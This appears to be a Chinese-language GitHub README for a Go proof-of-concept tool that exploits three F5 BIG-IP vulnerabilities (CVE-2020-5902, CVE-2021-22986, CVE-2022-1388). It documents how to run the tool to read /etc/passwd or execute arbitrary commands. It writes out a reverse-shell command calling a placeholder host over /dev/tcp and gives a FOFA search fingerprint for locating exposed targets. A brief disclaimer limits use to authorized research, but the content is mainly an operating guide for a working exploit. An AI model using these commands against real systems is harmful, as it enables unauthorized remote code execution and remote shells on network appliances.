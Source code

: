 # F5-BIG-IP POC

go语言编写CVE-2020-5902 CVE-2021-22986 CVE-2022-1388 POC集合 后续会增加F5其他POC

author:160team.west9B

**仅限用于安全研究人员在授权的情况下使用，遵守网络安全法，产生任何问题，后果自负，与作者无关。**

# 01-基本介绍

F5 POC合集：

CVE-2020-5902：F5 BIG-IP远程代码执行漏洞

CVE-2021-22986：F5 BIG-IP iControl REST未授权远程命令执行漏洞

CVE-2022-1388：身份验证绕过远程命令执行



# 02-使用说明

## usage: ./F5-BIG-IP  -u url 

CVE-2020-5902验证使用任意文件下载，返回/etc/passwd 则漏洞存在

CVE-2021-22986，CVE-2022-1388 POC默认执行id命令，返回{id}则漏洞存在，可使用-c自定义命令

## 反弹shell

usage: ./cve-2022-30525.exe -m exp -u url -c bash -i >& /dev/tcp/xxxx/1377 0>&1

# Screenshots
![Image text](https://github.com/west9b/F5-BIG-IP-POC/blob/main/poc.png)
![Image text](https://github.com/west9b/F5-BIG-IP-POC/blob/main/poc1.png)
# fofa
icon_hash="-335242539"
